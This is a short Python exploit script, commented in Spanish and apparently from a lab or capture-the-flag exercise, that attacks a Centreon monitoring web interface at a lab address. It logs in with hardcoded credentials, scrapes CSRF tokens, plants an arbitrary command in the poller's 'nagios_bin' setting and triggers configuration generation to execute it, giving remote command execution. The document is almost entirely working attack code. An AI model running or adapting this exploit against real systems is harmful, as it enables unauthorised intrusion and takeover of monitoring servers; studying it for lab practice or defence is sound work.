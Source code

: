```python
#!/usr/bin/python
import re
import requests
import sys

url = "http://10.10.10.157/centreon"
command = sys.argv[1]
sess = requests.session()
print("[+] Iniciando el exploit...")

# Primera petición para conseguir el token
req1 = sess.get(url + "/index.php") 
token = re.findall(r'<input name="centreon_token" type="hidden" value="(.*?)" />', req1.text)[0]

# Segunda petición: login a index php con las credenciales que hemos conseguido
data = { "useralias": "admin", "password": "password1", "submitLogin": "Connect", "centreon_token": token}
login = sess.post(url + "/index.php", data=data)
print(f"    >  Token -> {token}")
print("    >  Logueado!")

# Tercera petición: conseguir el token (siguiendo exl exploit, el tercer "centreon_token")
poller_conf = url + "/main.get.php?p=60901"
poller = sess.get(poller_conf)
poller_token = re.findall(r'<input name="centreon_token" type="hidden" value="(.*?)" />', poller.text)[2]
print(f"    >  Poller token: {poller_token}")

# Cuarta petición: mandando el payload ( Configuration > Commands > Miscellaneous )
payload = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
    "ssh_port": "22",
    "init_script": "centengine",
    "nagios_bin": command,
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token}

RCE = sess.post(poller_conf, payload)
print(f"[+] Código de estado: {RCE.status_code}")

# Quinta petición: generar un xml para activar el comando de antes
generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
xml_page_data = {"poller": "1", "debug": "true", "generate": "true",}
sess.post(generate_xml_page, xml_page_data)
```
